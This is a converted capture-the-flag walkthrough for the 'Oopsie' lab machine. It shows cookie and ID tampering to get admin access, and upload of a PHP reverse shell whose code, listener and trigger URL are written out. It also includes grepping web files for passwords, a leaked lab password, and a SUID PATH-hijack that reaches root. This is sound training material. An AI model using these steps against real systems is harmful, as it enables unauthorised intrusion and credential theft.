# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Oopsie Write-up Introduction Whenever you are performing a web assessment that includes authentication mechanisms, it's always

## Extracted walkthrough

### Page 1

```
Oopsie Write-up

Introduction

Whenever you are performing a web assessment that includes authentication mechanisms, it's always 
advised to check cookies, sessions and try to figure out how access control really works. In many cases, a 
Remote Code Execution attack and a foothold on system might not be achievable by itself, but rather after 
chaining different types of vulnerabilties and exploits. In this box, we are going to learn that Information 
Disclosure and Broken Access Control types of vulnerabilties even though they seem not very important can 
have a great impact while attacking a system, and thus why even small vulnerabilities matter.

Enumeration

We are going to start our enumeration by searching for any open ports using the Nmap tool:


nmap -sC -sV {TARGET_IP}
```




### Page 2

```
We can spot port 22 (SSH) and port 80 (HTTP) as open. We visit the IP using the web browser where we face 
a website for automotive.


On the homepage, it is possible to locate interesting information about how one can access the services 
through login:
```





### Page 3

```
According to this information, the website should have a login page. Before we proceed with directory and 
page enumeration, we can try to map website by using Burp Suite proxy to passively spider the website. 
Burp Suite is a powerful security testing application that can be used to perform web requests on web 
applications, mobile apps, and thick clients. Burp offers multiple capabilities such as web crawler, scanner, 
proxy, repeater, intruder and many more. 

For a further reading and deeper analysis of the usage of web proxies and tools like Burp suite can be found 
at the HTB academy module Using Web Proxies:


First we will start Burp Suite, and configure browser to send traffic through proxy. To access proxy settings 
in Mozilla Firefox, you can click on Firefox’s menu and navigate to Preferences.

A web crawler (also known as a web spider or web robot) is a program or automated 
script which browses the World Wide Web in a methodical, automated manner. This process 
is called Web crawling or spidering. Many legitimate sites, in particular search 
engines, use spidering as a means of providing up-to-date data.
If you tunnel web traffic through Burp Suite (without intercepting the packets), by 
default it can passively spider the website, update the site map with all of the 
contents requested and thus creating a tree of files and directories without sending 
any further requests.
```




### Page 4

```
Then we type in the search bar the "proxy" and now Network Settings are being presented. We are then 
select Settings... .
```




### Page 5

```
Then we select the Manual proxy configuration  where we enter as an HTTP Proxy the 127.0.0.1  IP and 
port the 8080 where Burp Proxy is listening.
 Note: It is advisable to also check the option of Also use this proxy for FTP and HTTPS  so all requests can 
go through Burp.
```


### Page 6

```
We need to disable the interception in Burp suite as it's enabled by default. Navigate to Proxy Tab , and 
under Intercept  subtab select the button where Intercept in on  so to disable it.
```




### Page 7

```
Now that everything is setup correctly we refresh the page in our browser and switch in Burp Suite under 
the Target tab and then on the  Sitemap option:
```






### Page 8

```
It is possible to spot some directories and files that weren't visible while browsing. One that is indeed very 
interesting it's the directory of /cdn-cgi/login .
We can visit it in our browser and indeed we are presented with the login page:


After trying a couple of default username/password combinations, we didn't managed to get any access. But 
there is also an option to  Login as Guest . Trying that and now we are presented with couple of new 
navigation options as we are logged in as Guest:
```




### Page 9

```
After navigating through the available pages, we spot that the only interesting one seems to be the 
Uploads . However it is not possible to access it as we need to have super admin  rights:

We need to find a way to escalate our privileges from user Guest  to super admin  role. One way to try this 
is by checking if cookies and sessions can be manipulated. 

It is possible to view and change cookies in Mozilla Firefox through the usage of Developer Tools. 

In order to enter the Developer Tools panel we need to right click in the content of the webpage and select 
the Inspect Element(Q) .
Cookies are text files with small pieces of data created by the web server, stored by 
the browser into the computer file system and being used to identify a user while is 
browsing a website.
Developer tools is a set of web developer tools built into Firefox. You can use them to 
examine, edit, and debug HTML, CSS, and JavaScript
```


### Page 10

```
Then we can navigate to Storage  section where Cookies are being presented. As one can observe, there is 
a role=guest  and user=2233  which we can assume that if we somehow knew the number of super 
admin  for the user  variable, we might be able to gain access to the upload page. 


We check the URL on our browsers bar again where there is an id  for every user:
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2
```







### Page 11

```
We can try change the id  variable to something else like for example 1 to see if we can enumerate the 
users:
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1


Indeed we got an information disclosure vulnerability, which we might be able to abuse. We now know the 
access ID of the admin  user thus we can try to change the values in our cookie through the Developer tools 
so the user  value to be 34322  and role  value to be admin . Then we can  revisit the Uploads  page.


We finally got access to the upload form.
```






### Page 12

```
Foothold

Now that we got access to the upload form we can attempt to upload a PHP  reverse shell. Instead of 
creating our own one, we will use an existing one.
In Parrot OS, it is possible to find webshells under the folder /usr/share/webshells/ , however, if you 
don't have it, you can download it from here.
For this exercise we are going to use the /usr/share/webshells/php/php-reverse-shell.php . 

Of course we need to modify the above code so it can suit our needs. We are going to change the $ip  and 
the $port  variables to match our settings and then we will attempt to upload the file. 

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
<SNIP>

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS WITH YOUR IP
$port = 1234;       // CHANGE THIS WITH YOUR LISTENING PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
<SNIP>
?>
```



### Page 13

```
We finally managed to upload it. Now we might need to bruteforce directories in order to locate the folder 
where the uploaded files are stored but we can also guess it. uploads  directory seems a logical 
assumption. We confirm that by running also the gobuster  tool.


The gobuster  immediately found the /uploads  directory. We don't have permission to access the 
directory but we can try access our uploaded file. 

gobuster dir --url http://{TARGET_IP}/ --wordlist 
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```






### Page 14

```
But first, we will need to set up a netcat connection:
Then request our shell through the browser:
and check our listener. 
Note: In case our shell is not there it might have been deleted so we need to upload it again


We got a reverse shell! In order to have a functional shell though we can issue the following:
nc -lvnp 1234
http://{TARGET_IP}/uploads/php-reverse-shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
```






### Page 15

```
Lateral Movement

As user www-data  we can't achieve many things as the role has restricted access on the system. Since the 
website is making use of PHP and SQL we can enumerate further the web directory for potential disclosures 
or misconfigurations. After some search we can find some interesting php files under /var/www/html/cdn-
cgi/login  directory. We can manually review the source code of all the pages or we can try search for 
interesting strings with the usage of grep  tool. grep  is a tool that searches for PATTERNS in each FILE and 
print lines that match the patterns. We can use cat *  to read all files while pipeing the output to grep 
where we provide the pattern of a string that starts with the word passw  and followed by any string such as 
for example words passwd or password. We can also use the switch -i  to ignore case sensitive words like 
Password. 


We indeed got the password: MEGACORP_4dm1n!! . We can check the available users are on the system by 
reading the /etc/passwd  file so we can try a password reuse of this password:

cat * | grep -i passw*
cat /etc/passwd
```




### Page 16

```
We found user robert .  In order to login as this user, we use the su  command:

su robert
```






### Page 17

```
Unfortunately, that wasn't the password for user robert . Let's read one by one the files now. We are going 
to start with db.php which seems interesting:


Now that we got the password we can successfully login and read the user.txt  flag which can be found in 
the home directory of robert :

Privilege Escalation

Before running any privilege escalation or enumeration script, let's check the basic commands for elevating 
privileges like sudo  and id :
```







### Page 18

```
We observe that user robert  is part of the group bugtracker . Let's try to see if there is any binary within 
that group:


We found a file named bugtracker . We check what privileges and what type of file is it:


There is a suid  set on that binary, which is a promising exploitation path.
find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```








### Page 19

```
We will run the application to observe how it behaves:


The tool is accepting user input as a name of the file that will be read using the cat  command, however, it 
does not specifies the whole path to file cat  and thus we might be able to exploit this.
We will navigate to /tmp  directory and create a file named cat   with the following content:

We will then set the execute privileges:

In order to exploit this we can add the /tmp directory to the PATH environmental variable.
Commonly noted as SUID (Set owner User ID), the special permission for the user access 
level has a single function: A file with SUID always executes as the user who owns the 
file, regardless of the user passing the command. If the file owner doesn't have 
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since 
it has SUID set.
/bin/sh
chmod +x cat
PATH is an environment variable on Unix-like operating systems, DOS, OS/2, and 
Microsoft Windows, specifying a set of directories where executable programs are 
located.
```





### Page 20

```
We can do that my issuing the following command:

Now we will check the $PATH :


Finally execute the bugtracker  from /tmp  directory:


The root flag can be found in the /root  folder:
We got both the flags, congratulations!
export PATH=/tmp:$PATH
echo $PATH
```





---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
